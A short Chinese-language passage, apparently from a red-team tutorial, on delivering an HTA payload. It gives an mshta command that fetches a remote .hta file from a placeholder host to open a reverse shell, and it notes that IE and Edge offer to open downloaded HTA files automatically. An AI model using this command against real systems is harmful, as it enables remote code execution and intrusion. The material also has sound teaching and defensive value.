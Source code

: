 Payload 和 target 设置类型设置为 X64 还是 X86，实际情况要根据系统版本来看。

执行反弹。

```plaintext
mshta http://<Host>:8080/say00S5.hta
```

除了使用 mshta 运行外还可以通过浏览器运行。在 IE 11 和新老版本 Edge 浏览器下载 hta 应用后存在自动打开按钮（Chrome 和 Firefox 则是直接下载）。

![Internet Explorer 11 下载 HTA.png](assets/1708583756-76d4a9c5a1450d30ff4c65b3869cc33a.png)  
![Edge（改版前）下载 HTA.png](assets/1708583756-bc180bd2dc9e4b0dfb27a93cda10a62a.png)  